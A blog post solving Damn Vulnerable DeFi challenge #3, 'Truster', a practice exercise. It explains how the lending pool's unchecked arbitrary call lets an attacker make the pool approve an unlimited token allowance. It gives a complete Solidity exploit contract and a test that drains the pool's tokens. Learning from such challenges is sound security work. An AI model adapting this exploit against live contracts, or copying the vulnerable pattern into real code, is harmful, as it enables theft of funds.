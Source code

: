 ```yaml
---
isDraft: false
title: 'Damn Vulnerable DeFi Challenge #3 Solution'
description: 'Explanation of solution to Damn Vulnerable Defi Challenge #3: Truster'
tags: ['defi', 'solidity']
series: 'Damn Vulnerable DeFi'
publishDate: 'Feb 20, 2023 05:48 PM'
---
```



# {frontmatter.title}

<Quote />

_Published <FormattedDate client:only="react" date={props.date} />_

> ## Challenge #3 - Truster
>
> More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
>
> The pool holds 1 million DVT tokens. You have nothing.
>
> To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

The pool's `flashLoan` function implements some preventative measures against attacks. Namely, it uses the nonReentrant modifier and an if statement that reverts if its balance is less than its balance before the transfer.

```solidity
// contracts/truster/TrusterLenderPool.sol

function flashLoan(
    uint256 amount,
    address borrower,
    address target,
    bytes calldata data
) external nonReentrant returns (bool) {
    uint256 balanceBefore = token.balanceOf(address(this));

    token.transfer(borrower, amount);
    target.functionCall(data);

    if (token.balanceOf(address(this)) < balanceBefore)
        revert RepayFailed();

    return true;
}
```

There is a single line that throws the contract's security out the window.

`target.functionCall(data);`

It may seem fine since the contract checks its token balance after the function call, but allowing arbitrary function calls is almost never a good idea. It is extremely tricky to audit interactions with external contracts.

The DVT contract inherits from Solmate's ERC20 + EIP-2312 implementation. One method from the ERC-20 specification stands out:

> ### approve
>
> Allows `_spender` to withdraw from your account multiple times, up to the `_value` amount. If this function is called again it overwrites the current allowance with `_value`.

Solmate implements it in its ERC20 contract:

```solidity
// node_modules/solmate/src/tokens/ERC20.sol

function approve(
    address spender,
    uint256 amount
) public virtual returns (bool) {
    allowance[msg.sender][spender] = amount;

    emit Approval(msg.sender, spender, amount);

    return true;
}
```

Since the pool allows us to call any function on its behalf, we can call `approve` with the pool as `msg.sender`. We can set our own allowance, and then transfer the pool's balance to ourselves!

These two actions must be done separately because `flashLoan` would revert if we simply transferred the tokens to ourselves (`RepayFailed`). We can perform multiple actions in a single transaction by executing them in a contract's `constructor`.

Let's create a contract that takes control of all of the pool's tokens. The contract then transfers the tokens to a beneficiary (us).

```solidity
// contracts/truster/Trustee.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./TrusterLenderPool.sol";

contract Trustee {
    constructor(TrusterLenderPool pool) {
        pool.flashLoan(
            // "amount" has to be 0.
            // We can't borrow because we won't be repaying a loan.
            0,
            // "borrower" can be any address since we're not borrowing.
            address(0),
            // "target" is the contract we are calling.
            address(pool.token()),
            // "data" is what we call "target" with.
            // We send the approve function's signature along with its arguments.
            // We approve an unlimited amount for Trustee to manage.
            abi.encodeWithSignature(
                "approve(address,uint256)",
                address(this),
                type(uint256).max
            )
        );

        pool.token().transferFrom(
            address(pool),
            msg.sender,
            pool.token().balanceOf(address(pool))
        );
    }
}
```

Now we just compile and deploy `Trustee`. It will transfer all tokens to the deployer on deployment.

```js
// test/truster/truster.challenge.js

it('Execution', async function () {
  await (
    await ethers.getContractFactory('Trustee', player)
  ).deploy(pool.address)
})
```
